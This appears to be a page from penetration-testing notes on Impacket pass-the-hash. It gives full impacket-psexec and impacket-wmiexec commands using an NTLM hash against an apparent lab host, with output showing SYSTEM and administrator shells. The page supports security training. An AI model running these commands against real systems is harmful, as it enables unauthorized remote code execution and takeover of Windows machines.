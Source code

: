 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Impacket

## Pass-the-Hash

> _NetExec also used `impacket-psexec` to perform the_ [_PtH attack_](netexec-cme.md#rce)_._

`impacket-psexec` searches for a writable share and uploads an executable file to it. Then it registers the executable as a Windows service and starts it which results in RCE. It requires two arguments:

1. `hashes`: allows us to use NTLM hashes to authenticate to the target. The format is `LMHash:NTHash`, in which we specify the `Administrator`'s NTLM hash after the colon (the `LMHash` part can be left empty).
2. `username@IP`: the target definition.

> _At the end of the command we could specify another argument, which is used to determine which command psexec should execute on the target system. If we leave it empty, `cmd.exe` will be executed, providing us with an interactive shell as `SYSTEM`. We can also use one of the other impacket scripts like `wmiexec.py` to obtain a shell as the user we used for authentication._

{% tabs %}
{% tab title="SYSTEM Shell" %}
{% code overflow="wrap" %}
```bash
# SYSTEM shell
$ impacket-psexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 192.168.233.212.....
[*] Found writable share ADMIN$
[*] Uploading file WIKgrLbX.exe
[*] Opening SVCManager on 192.168.233.212.....
[*] Creating service iVBP on 192.168.233.212.....
[*] Starting service iVBP.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
{% endcode %}
{% endtab %}

{% tab title="Administrator Shell" %}
{% code overflow="wrap" %}
```bash
# Administrator shell
$ impacket-wmiexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
files02\administrator
```
{% endcode %}
{% endtab %}
{% endtabs %}
